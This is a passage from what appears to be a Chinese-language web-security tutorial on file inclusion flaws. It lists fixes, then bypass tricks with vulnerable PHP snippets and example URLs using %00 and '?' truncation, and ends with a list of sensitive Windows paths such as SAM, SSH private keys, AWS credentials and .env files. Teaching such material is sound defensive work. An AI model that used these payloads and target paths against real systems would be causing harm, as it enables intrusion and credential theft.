 三、修复与绕过
-------

### 3.1 修复方式

1.  **白名单优先**
    
    *   最可靠的做法是把可包含的文件限定为一份显式映射（例如键名 -> 绝对路径），不要直接使用用户输入作为路径部分。
2.  **路径规范化与根目录约束**
    
    *   在接受路径前先做规范化（例如解析绝对路径），然后验证该路径确实位于允许的根目录之下。对于存在符号链接的文件系统，考虑解析真实路径（realpath）再验证。
3.  **禁用远程包含**
    
    *   在运行时或应用配置中禁止包含远程 URL（如PHP）。
4.  **协议控制**
    
    *   禁用用不到的协议，比如gopher, php协议等
5.  **最小权限原则**
    
    *   Web 进程仅对其运行所需的文件与目录拥有读取/写入权限；配置文件、密钥、私有证书等应尽可能放在 web 用户不可直接访问的目录，并对访问做好权限控制。

### 3.2 绕过技巧

1.  **输入混淆**：对于黑名单的防御手段。可以尝试通过 URL 编码、双重编码、大小写混淆或使用不同路径分隔符来绕过简单的字符串比较。
2.  **%00截断**：对于php搭建的网站且php版本小于5.3，可以尝试%00截断，例如

     <?php
      $file=$_GET['file'];
      include($file.".html");
     ?>
    

可以使用https://xxx.com/path/vul.php?file=xxx.php%00 这样后面的.html就会被舍弃了，相当于直接访问xxx.php  
3\. **http/https截断**：对于http/https协议，可以用?进行截断，例如

     <?php
      $file=$_GET['file'];
      include($file.".html");
     ?>
    

可以使用https://xxx.com/path/vul.php?file=https://xxx.com/xxx.php? 这样后面的.html就会被舍弃了，相当于直接访问https://xxx.com/xxx.php

四、补充说明
------

### 4.1 Windows / Linux 敏感路径

#### 4.1.1 windows

    C:\boot.ini                          // 查看系统启动配置（Windows XP/旧版相关）
    C:\Windows\System32\config\SAM       // 本地账号数据库（含离线哈希）
    C:\Windows\System32\config\security  // 本地安全策略、凭据相关
    C:\Windows\System32\config\software  // 注册表备份（系统/软件配置）
    C:\Windows\System32\config\system    // 注册表系统分支（系统配置）
    C:\Windows\repair\SAM                // 系统安装相关的凭据备份（历史/备份）
    C:\Windows\repair\System             // 系统备份文件
    C:\Windows\php.ini                    // PHP 全局配置（若在 Windows 上安装 PHP）
    C:\inetpub\wwwroot\web.config         // IIS 网站配置（站点设置、连接字符串等）
    C:\windows\system32\inetsrv\MetaBase.xml // IIS（旧版）配置存储
    C:\Program Files\MySQL\MySQL Server X.Y\my.ini  // MySQL 配置（Windows 默认安装路径示例）
    C:\Program Files\MySQL\MySQL Server X.Y\data\mysql\user.MYD // MySQL 用户表文件（可能含密码相关信息，视引擎而定）
    C:\Users\<用户名>\.ssh\id_rsa         // 用户 SSH 私钥（若存在）
    C:\Users\<用户名>\.aws\credentials    // AWS CLI 本地凭证（若配置）
    C:\Users\<用户名>\AppData\Roaming\    // 应用配置/凭证（例如浏览器/客户端本地存储）
    C:\ProgramData\Docker\config\daemon.json // Docker 配置（含可能敏感配置）
    C:\ProgramData\Jenkins\.ssh\          // CI/工具相关凭证目录（视安装而定）
    C:\inetpub\wwwroot\.env               // 应用环境文件（若被放置于 webroot，含密钥/凭据）